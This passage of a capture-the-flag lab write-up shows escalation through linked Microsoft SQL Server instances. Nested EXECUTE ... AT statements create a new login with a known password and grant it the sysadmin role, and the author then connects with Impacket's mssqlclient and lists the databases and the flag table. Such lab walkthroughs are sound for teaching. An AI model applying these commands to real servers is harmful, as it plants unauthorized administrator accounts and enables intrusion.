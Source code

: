

### Add sa User

To make life easier, I'll create a new sa user with a password I know so
that I don't have to bounce everything.



    SQL> EXECUTE('EXECUTE(''CREATE LOGIN df WITH PASSWORD = ''''qwe123QWE!@#'''';'') AT [COMPATIBILITY\POO_PUBLIC]') AT [COMPATIBILITY\POO_CONFIG]
    SQL> EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''df'''', ''''sysadmin'''''') AT [COMPATIBILITY\POO_PUBLIC]') AT [COMPATIBILITY\POO_CONFIG]



Now I can connect with this new admin account:



    root@kali# mssqlclient.py 'df:qwe123QWE!@#@10.13.38.11'
    Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed database context to 'master'.
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (140 7235) 
    [!] Press help for extra shell commands
    SQL> 



### New DB - Flag

As sa, I can now access another database, `flag`:



    SQL> SELECT name FROM master..sysdatabases;
    name
    ------------------------------   
    master
    tempdb
    model
    msdb
    POO_PUBLIC
    flag 



I can list the tables and schema:



    SQL> select table_name,table_schema from flag.INFORMATION_SCHEMA.TABLES;
    table_name                       table_schema   
    ------------------------------   ------------------------------   
    flag                             dbo
